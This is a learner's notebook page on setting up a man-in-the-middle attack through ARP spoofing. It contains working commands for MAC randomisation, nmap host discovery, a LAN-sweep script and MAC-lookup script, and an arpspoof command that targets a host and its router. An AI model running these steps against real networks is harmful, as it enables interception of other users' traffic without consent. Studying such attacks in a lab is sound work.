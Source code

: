 # TODO - Man in the Middle with ARP spoofing

Welcome again :D&#x20;

Im actually pleased of myself because Im explaining to me and Im actually understanding something LOL

## Recap

### change the MAC

```
sudo macchanger -r eth0 
```

### reverse DNS request to get all the hostname

and find the target

```bash
nmap -sL 192.168.1.0/24
# -sL     reverse DNS resolution (send no packet to the host, 
                only to the DNS server probably)
```

### scan all your LAN

```bash
#! /bin/bash

ip=$(hostname -I | awk '{print $1}')
ip="${ip##*( )}"
ip_selected=()

if [[ "$ip" == *"$192"* ]]; then
    ip_selected=192.168.0.0/16
elif [[ "$ip" == *"$172"* ]]; then
    ip_selected=172.16.0.0/12
elif [[ "$ip" == *"$10"* ]]; then
    ip_selected=10.0.0.0/8
fi

# echo "$ip_selected"
nmap -sL "$ip_selected" 2>&1 | tee | grep --line-buffered -e \( | awk -Ffor '{print $2}'
```

<details>

<summary>scan all your LAN</summary>



</details>

### check if host is alive

{% embed url="https://security.stackexchange.com/questions/36198/how-to-find-live-hosts-on-my-network" %}

```bash
nmap -sn 192.168.1.68

# -sn     disable port scan
# -sn is the same as -sP (Ping scan)
# this command is not 100% reliable, it is reliable enough though
```

{% embed url="https://unix.stackexchange.com/questions/87935/nmap-sn-scan-or-no-scan" %}

## Get MAC addrs

A script could be useful.

```
./basic_mitm 192.168.1.68 192.168.1.1
```

```
-n     no DNS resolution 
-sP    skip port scan
```

```bash
#!/bin/bash

echo "$1"
echo "$2"

mac1=$(sudo nmap -nsP "$1" | grep MAC | awk -F\  ' { print $3 } ' )
mac2=$(sudo nmap -nsP "$2" | grep MAC | awk -F\  ' { print $3 } ' )

echo "$mac1"
echo "$mac2"
```

## Packet redirect

Now a method is needed to be able to not block the connection of the target host with the router.

<details>

<summary>How can I forward using MAC addrs, or IP?</summary>

* _bridge_ command from iproute2 package
* iptables mac command
* ebtables

</details>

linux mac forwarding

## [iptables](todo-iptables.md)

### MAC forwarding

As if we were switches we could use MAC addresses to forward data at the data link layer (layer 2) of the OSI model.&#x20;

{% embed url="https://serverfault.com/questions/293786/is-there-a-tool-like-route-in-linux-to-configure-the-forwarding-entry-dst-mac" %}

{% embed url="https://en.wikipedia.org/wiki/MAC-Forced_Forwarding" %}

{% embed url="https://linux.die.net/man/8/iptables" %}

{% hint style="info" %}
iptables command has a "mac" section that could be useful
{% endhint %}

## ARP spoofing

```
sudo arpspoof -i eth0 -t 192.168.1.68 -r 192.168.1.1 
```

## Sources

{% embed url="https://www.cyberciti.biz/tips/iptables-mac-address-filtering.html" %}

{% embed url="https://explainshell.com/explain/1/nmap" %}
